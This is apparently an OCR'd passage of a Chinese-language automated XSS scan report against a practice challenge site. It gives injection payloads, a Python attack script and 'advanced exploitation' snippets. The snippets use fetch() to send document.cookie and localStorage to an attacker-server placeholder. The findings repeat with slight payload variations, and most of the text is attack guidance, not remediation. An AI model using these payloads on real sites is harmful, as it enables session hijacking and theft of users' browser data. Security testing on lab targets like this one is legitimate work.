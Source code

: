    ```python
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: medium
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: medium
- 验证载荷: <svg onload=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制
